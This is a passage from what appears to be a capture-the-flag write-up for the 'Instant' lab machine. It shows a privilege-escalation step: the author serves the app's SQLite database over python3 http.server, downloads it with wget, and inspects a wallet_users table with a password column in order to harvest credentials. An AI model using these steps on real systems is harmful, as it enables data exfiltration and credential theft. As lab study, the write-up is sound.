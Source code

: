 ```

Last login: Sat Mar 29 20:22:54 2025 from 10.10.14.53
shirohige@instant:~$ 

```


## Privilege Escalation
Instant's database is stored at ```~/projects/mywallet/Instant-Api/mywallet/instance/```. 

```
shirohige@instant:~$ ls -al projects/mywallet/Instant-Api/mywallet/instance/
total 44
drwxr-xr-x 2 shirohige shirohige  4096 Oct  4 15:22 .
drwxr-xr-x 5 shirohige shirohige  4096 Oct  4 15:22 ..
-rw-r--r-- 1 shirohige shirohige 36864 Sep 30 16:34 instant.db
```

Sqlite3 installed though, so I transferred it to my local machine for viewing.

```
shirohige@instant:~$ python3 -m http.server 8000 -d projects/mywallet/Instant-Api/mywallet/instance/
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```
┌──(kali㉿kali)-[/tmp]
└─$ wget http://instant.htb:8000/instant.db
--2025-03-29 15:30:35--  http://instant.htb:8000/instant.db
Resolving instant.htb (instant.htb)... 10.10.11.37
Connecting to instant.htb (instant.htb)|10.10.11.37|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36864 (36K) [application/octet-stream]
Saving to: ‘instant.db’

instant.db                           100%[======================================================================>]  36.00K  --.-KB/s    in 0.05s   

2025-03-29 15:30:35 (674 KB/s) - ‘instant.db’ saved [36864/36864]
```

There is a ```wallet_users``` table which has, among others, a password column that we can harvest credentials form.


```
sqlite> .schema
CREATE TABLE wallet_users (
        id INTEGER NOT NULL, 
        username VARCHAR, 
        email VARCHAR, 
        wallet_id VARCHAR, 
        password VARCHAR, 
        create_date VARCHAR, 
        secret_pin INTEGER, 
        role VARCHAR, 
        status VARCHAR, 
        PRIMARY KEY (id), 
        UNIQUE (username), 
        UNIQUE (email), 
        UNIQUE (wallet_id)
);
CREATE TABLE wallet_wallets (
        id INTEGER NOT NULL, 
        wallet_id VARCHAR, 
        balance INTEGER, 
```
